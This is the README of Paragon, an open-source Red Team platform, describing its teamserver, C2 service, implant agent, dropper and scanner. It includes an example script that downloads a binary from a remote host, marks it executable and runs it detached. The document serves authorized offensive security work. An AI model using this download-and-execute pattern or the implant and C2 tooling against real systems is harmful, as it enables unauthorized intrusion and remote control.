


[](https://travis-ci.org/KCarretto/paragon) [](https://goreportcard.com/report/github.com/kcarretto/paragon) [](https://coveralls.io/github/KCarretto/paragon?branch=master)  [](https://godoc.org/github.com/KCarretto/paragon)

# Paragon

Paragon is a Red Team engagement platform. It aims to unify offensive tools behind a simple UI, abstracting much of the backend work to enable operators to focus on writing implants and spend less time worrying about databases and css. The repository also provides some offensive tools already integrated with Paragon that can be used during engagements.


---

_This repository is still under heavy development and is not ready for production use. When it is considered stable, a V1.0.0 tag will be released. Until then, the API may encounter breaking changes as we continually simplify our design. Please read the developer documentation below if you'd like to help us reach this milestone faster._

## Table of Contents
- [Feature Highlights](#feature-highlights)
- [Getting Started](#getting-started)
- [Component Overview](#component-overview)
- [Terminology](#terminology)
- [Developer Guide](#developer-guide)

## Feature Highlights
* Easily integrate custom tools to unify operations behind a **single interface**
* Query the Red Team knowledge graph using a provided GraphQL API
* Event emission for low latency automation and real time processing
* Python-like scripting language for deployments, post-exploitation, and more
* Cross-platform implants & deployment included
* Record operator activity to conviniently aggregate into a post-engagement report for review

## Getting Started

A quick demonstration instance can be setup by cloning the repository and running `docker-compose up`. Open [127.0.0.1:80](http://127.0.0.1:80) in your browser to get started!

The utilized images are available on docker-hub, and can be configured from a docker-compose file for a production deployment.

## Component Overview

### Scripting Language
Most components in this repository rely on a Python-like scripting language which enables powerful control and customization of their behaviour. The language is a modified version of [Google's starlark](https://github.com/google/starlark-go), extended with cross-platform functionality for operators. This also enables tools like the agent and dropper (discussed below) to execute tasks without relying on system binaries (`curl`, `bash`, etc). All operations are executed as code in Golang, so it's intuitive to add additional functionality to the scripting environment. Here is an example script:

```python
# Download a file via https, execute it, and don't keep it as a child process.
load("sys", "request")

new_bin = "/tmp/kqwncWECaaV"
request("https://library.redteam.tld", writeToFile=new_bin)

# set new_bin permissions to 0755
chmod(new_bin, ownerRead=True, ownerWrite=True, ownerExec=True, groupRead=True, groupExec=True, worldRead=True, worldExec=True)
exec(new_bin, disown=True)
```
[Reference](https://godoc.org/github.com/KCarretto/paragon/pkg/script/stdlib/sys)

### Teamserver
Provides a simple web application and GraphQL API to interface with a Red Team knowledge graph, unifying tools behind a centralized source of truth and abstracting many tedious backend concerns from operators. Integrate your custom tools with the Teamserver (using the GraphQL API or event subscriptions) to save time on the backend work. The Teamserver records all activity, so with all of your tools unified in one place, writing post-engagement reports becomes signficantly easier.

### Built-In Tools

The below tools are also included within the repository. They can easily be extended to fit many cross-platform use cases.

#### Dropper
* Fully cross-platform
* Statically compile assets into a single binary
* Provides Python-like scripting language for custom deployment configuration

Paragon provides a tool for packaging assets (binaries, scripts, etc.) into a single binary that when executed will execute your custom deployment script that may write assets to the filesystem, launch processes, download files, handle errors, and more. It is fully cross-platform and statically compiled, providing reliable deployments. If you wish to extend it's functionality, you may simply extend the generated golang file before compiling.


#### Agent

* Fully cross-platform
* Provides Python-like scripting language for post exploitation
* Modular communication mechanisms, only compile in what you need
    * Utilize multiple options to ensure reliable callbacks
* Customize how the agent handles communication failures

An implant that executes tasks and reports execution results. It is configured by default to execute tasks using Paragon's Python-like scripting language and to communicate with a C2 via http(s). It is written in Go, and can be quickly modified to add new transport methods (i.e. DNS), execution options, fail over logic, and more.

#### C2

* Lightweight deployment
* Highly performant, able to handle thousands of Agents
    * _Dependent on system resources and available bandwidth_
* Distributed service, utilize as many C2s as you'd like

Acts as a middleman between the Agent and the Teamserver. It handles agent callbacks for a variety of communication mechanisms, and provides it with new tasks from the teamserver queue.

#### Runner

* Low latency, real time task execution
* Easily extended to add support for more communication mechanisms
* Distributed service, utilize as many runners as you'd like

Instead of waiting for a callback, some situations might require a foward connection to quickly execute a task and view it's output. The runner accomplishes this by subscribing to task queues and establishing a connection to the target machine (i.e. using ssh). This enables shell-like integrations to utilize the same interface as implants and C2s. It also allows for initial implant deployment to be conducted through this interface.

#### Scanner

* Monitor reachable target services
* Automate responses when services become (un)available
* Provide network information to the knowledge graph, which may be utilized by other tools
* Distributed service, utilize as many scanners as you'd like

Monitor target network activity and visible services. Map out a graph of the engagement network, and trigger automation on state changes (i.e. ssh becomes available).

## Terminology

To ensure clear communication about these complex systems, we have outlined a few project-specific terms below that will be used throughout the project's documentation.

### Implant
Any malicious software that will be run on compromised systems during the engagement.

### Task
Desired operations to be executed on a specific compromised system. Tasks provide execution instructions to implants, however their syntax / structure can be completely specific to a tool.

### Agent
An Implant that receives tasks from the teamserver, executes them, and reports their results. An extensible default implementation is included with this repository, which requires that tasks be provided as scripts written using the project's Python-like DSL.

### Job
Requests that the Teamserver perform a set of given operations. Upon creating a job, the instructions will be saved but not executed. The user may request that the Teamserver execute a job zero or more times by queuing the job and providing the required parameters to it. Jobs may never be updated, but new versions of jobs can be created to avoid excessive copy-paste.

A common use-case for a Job is when the user wishes to execute a script on a few Targets. The user creates a job, which instructs the teamserver to create tasks with the provided content, but leaves the desired target machines as a parameter. When the job is queued, the user provides a list of target machines as a parameter, and the Teamserver will create a task for each machine.

## Developer Guide

Below serves as an initial and brief reference for Paragon development. More documentation can be found in the package godocs or by reading through some code :) After we have finalized some design decisions (well before reaching v1), a code-freeze will take effect until all documentation has been updated and appropriately organized.

### Prerequisites
* Git
* Docker
* VSCode
    * _While you may use other editors, you'll lose out on the customization that speeds up development for VSCode_
    * The `Remote - Containers` extension provided by Microsoft is required to get started.

### Environment Setup
After installing the prerequisites listed above, you'll be able to get started in no time. Simply clone the repository and open it in VSCode. You will be prompted to open the codebase in a development container, which has been configured with all the project dependencies and developer tools you'll need. If this option does not appear for you, open the command pallete and run `> Remote-Containers: Open Folder In Container` which should start the container for you. If this is your first time launching the container, it may take a while to download... so get yourself some coffee ^_^

### Project Layout

Below is an overview of the project structure and where each component lives. If this becomes outdated, please feel free to submit an issue reporting this or preferably a PR to fix it. The codebase is setup as a monorepository, which enables us to take advantage of shared development tooling, standardization, etc. while avoiding complicated version conflicts.

| Folder        | Use Case|
|---------------|---------|
| .devcontainer | Configuration for the VSCode container development environment. |
| .github | Github configuration. |
| .stats | A git ignored directory (which you may or may not have) for storing performance profiling output. |
| ent | Graph related API definitions used by the teamserver. |
| graphql | GraphQL schema & related code generated from ent. |
| cmd | Command line executable tools and services. |
| dist | A git ignored directory for storing build artifacts. |
| docker | Dockerfiles used for example deployment. |
| ent | Graph models and schemas used by the teamserver (see Facebook's [entgo](https://entgo.io) tool for more info). |
| pkg | Public facing libraries utilized by repository tools but also exposed to the world. |
| pkg/agent | An abstraction to easily create an implant or communication transport. |
| pkg/c2 | C2 service related helpers and standardized message definitions. |
| pkg/c2/proto | Protobuf spec to define a standardized serialization format for Agent <-> C2 communication. |
| pkg/drop | Provides a simple method used by compiled dropper payloads. |
| pkg/middleware | Common middleware for HTTP services. |
| pkg/script | Python-like scripting language for dynamic configuration, automation, and cross-platform exploitation. |
| pkg/script/stdlib | Standard libraries that expose functionality for scripting execution environments. |
| pkg/teamserver | Teamserver service related helpers. |
| www | Contains the primary web application hosted by the teamserver. Created by Facebook's create-react-app application. |
| www/src/components | Reuseable react-components. |
| www/src/config | Web App configuration & routing. |
| www/src/views | Containers that query data from the Teamserver and compose components to render. |

### Teamserver Reference

#### Knowledge Graph
Below is an overview of the relationship between nodes in the Red Team knowledge graph managed by the Teamserver.



### Agent Reference

#### Adding a Transport
The agent is designed to be easily customized with new transport mechanisms, multiplexing communications based on transport priority. To use your own, simply implement the [agent.Sender](https://godoc.org/github.com/KCarretto/paragon/pkg/agent#Sender) interface and register your transport during initialization. Examples of existing transports can be found in subdirectories of the `agent` package.

#### Task Execution
By default, the agent expects tasks to adhere to starlark syntax, and exposes a standard library for scripts to utilize. To change the behaviour of task execution (i.e. just bash commands), you may implement the [agent.Receiver](https://godoc.org/github.com/KCarretto/paragon/pkg/agent#Receiver) interface to execute tasks as you'd like.

#### Scripting Environment
The scripting environment can be customized for your agent, enabling you to easily package new functionality for scripts to utilize. See [script options](https://godoc.org/github.com/KCarretto/paragon/pkg/script#Option) to learn how to extend the agent's script engine.

#### Execution Flow
Below is a flow diagram of the general execution of the agent implant.



